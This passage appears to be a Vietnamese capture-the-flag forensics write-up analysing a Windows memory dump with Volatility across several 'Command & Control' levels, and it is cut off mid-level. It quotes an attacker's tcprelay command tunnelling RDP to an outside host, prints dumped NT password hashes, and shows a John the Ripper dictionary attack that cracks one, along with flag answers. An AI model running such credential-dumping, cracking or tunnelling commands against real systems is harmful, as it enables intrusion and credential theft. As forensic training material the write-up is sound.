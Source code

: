 ```
01/12/2013  05:57 PM            22,078 tcprelay.exe
tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443
C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exe
C:\Users\John Doe\AppData\Local\Temp\TEMP23\tcprelay.exeN_
C:\Users\John Doe\AppData\Local\Temp\TEMP23\tcprelay.exeJ"
C:\Users\John Doe\AppData\Local\Temp\TEMP23\tcprelay.exeN_
C:\Users\John Doe\AppData\Local\Temp\TEMP23\tcprelay.exeJ"
5C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exeg[j
tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443
```
Có thể thấy dòng ```tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443``` xuất hiện khá nhiều lần, tới đây thì mình cũng hiểu sơ sơ là tcprelay được dùng để thiết lập port forwarding, từ đó thực hiện mở một kết nối an toàn (HTTPS) tới máy chủ từ xa có ip là 192.168.0.22 và port là 3389 thông qua Remote Desktop Protocol (RDP)

```Flag: 192.168.0.22:3389```


## Command & Control - level 5

![image](/assets/data/12.png)

Như thường lệ ta sẽ dùng volatility để phân tích bộ nhớ ram


Dùng plugin hashdump để trích xuất các hash có trong bộ nhớ

```
volatility -f ch2.dmp --profile=Win7SP1x86_23418 hashdump
Volatility Foundation Volatility Framework 2.6.1
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
John Doe:1000:aad3b435b51404eeaad3b435b51404ee:b9f917853e3dbf6e6831ecce60725930:::
```

Sau đó dùng ***John*** để tấn công từ điển lấy mật khẩu

```
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

#passw0rd 
```




## Command & Control - level 6

![image](/assets/data/30.png)

Ở level trước ta đã xác định được tiền trình độc hại khi chạy plugin ```pstree```

```
0x87b6b030:iexplore.exe                            2772   2548      2     74 2013-01-12 16:40:34 UTC+0000
.0x89898030:cmd.exe                                1616   2772      2    101 2013-01-12 16:55:49 UTC+0000
```
Tiến trình iexplore.exe có ```pid``` 2772 là tiến trình độc hại khi nó sinh ra proc con ```cmd.exe```

Dùng plugin ```procdump``` để dump tiến trình này dạng ``.exe`` để phân tích

```
volatility -f ch2.dmp --profile=Win7SP1x86_23418 procdump --pid=2772 --dump-dir=.
